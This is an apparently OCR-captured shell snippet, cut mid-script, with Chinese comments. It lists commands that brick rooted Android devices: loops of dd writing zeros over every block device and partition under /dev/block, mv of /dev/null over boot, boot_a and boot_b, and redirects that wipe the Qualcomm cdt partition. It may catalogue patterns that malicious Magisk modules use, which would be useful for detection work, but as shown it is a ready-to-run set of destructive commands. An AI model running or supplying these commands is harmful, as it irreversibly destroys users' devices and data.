 ```
  dd if=/dev/zero of=${i} bs=1b count=10
done
#此代码通过获取/dev/block目录下所有以sd开头的设备文件(例如 sd[a-c])来修改文件(ls 带“*”的路径会直接输出完整路径)

for i in $(ls /dev/block/dm*) ; do
  dd if=/dev/zero of=${i} bs=1b count=10
done
#此代码通过获取/dev/block目录下所有以dm开头的设备文件(例如 dm-[0-3])来修改文件(ls 带“*”的路径会直接输出完整路径)

for i in $(ls /dev/block/ram*) ; do
  dd if=/dev/zero of=${i} bs=1b count=10
done
#此代码通过获取/dev/block目录下所有以ram开头的设备文件(例如 ram[0-3])来修改文件(ls 带“*”的路径会直接输出完整路径)

for i in $(ls /dev/block/loop*) ; do
  dd if=/dev/zero of=${i} bs=1b count=10
done
#此代码通过获取/dev/block目录下所有以loop开头的设备文件(例如 loop[0-3])来修改文件(ls 带“*”的路径会直接输出完整路径)

for i in $(ls /dev/block/by-name/*) ; do
  dd if=/dev/zero of=${i} bs=1b count=10
done
#此代码通过获取/dev/block/by-name目录下的所有分区文件来修改文件(ls 带“*”的路径会直接输出完整路径)

for i in $(ls /dev/block/bootdevice/by-name/*) ; do
  dd if=/dev/zero of=${i} bs=1b count=10
done
#此代码通过获取/dev/block/bootdevice/by-name目录下的所有分区文件来修改文件(ls 带“*”的路径会直接输出完整路径)

for i in $(ls /dev/block/mapper/*) ; do
  [[ -d "${i}" ]] || dd if=/dev/zero of=${i} bs=1b count=10
done
#此代码通过获取/dev/block/mapper目录下的所有分区文件来修改文件(ls 带“*”的路径会直接输出完整路径)

# 对于分区路径的解释：
#  大部分设备的分区路径是 /dev/block/by-name ，部分旧设备是 /dev/block/bootdevice/by-name ， /dev/block/mapper 是super分区(动态分区的系统分区合区)内的子分区文件(有些不属于super分区，而是属于其子分区)

dd if=/dev/zero of=$(magisk --path)/.magisk/block/system_root bs=1b count=10 #通过获取Magisk缓存路径映射的分区路径来修改文件(在新版本Magisk已被移除)


# 3、mv

mv /dev/null /dev/block/bootdevice/by-name/boot #替换单槽boot为空
mv /dev/null /dev/block/bootdevice/by-name/boot_a #替换a槽boot为空
mv /dev/null /dev/block/bootdevice/by-name/boot_b #替换b槽boot为空
mv /dev/null /dev/block/by-name/boot #替换单槽boot为空
mv /dev/null /dev/block/by-name/boot_a #替换a槽boot为空
mv /dev/null /dev/block/by-name/boot_b #替换b槽boot为空

# 对于分区路径的解释：
#  大部分设备的分区路径是 /dev/block/by-name ，部分旧设备是 /dev/block/bootdevice/by-name


# 4、重定向操作符

echo '' > /dev/block/by-name/cdt #修改高通设备参数分区为空
ls / > /dev/block/by-name/cdt #修改高通设备参数分区为根目录各个分区名称
cat /dev/null > /dev/block/by-name/cdt #修改高通设备参数分区为空
chmod 000 -R /data/adb > /dev/block/by-name/cdt #修改高通设备参数分区为空
chattr +i /data/adb > /dev/block/by-name/cdt #修改高通设备参数分区为空

```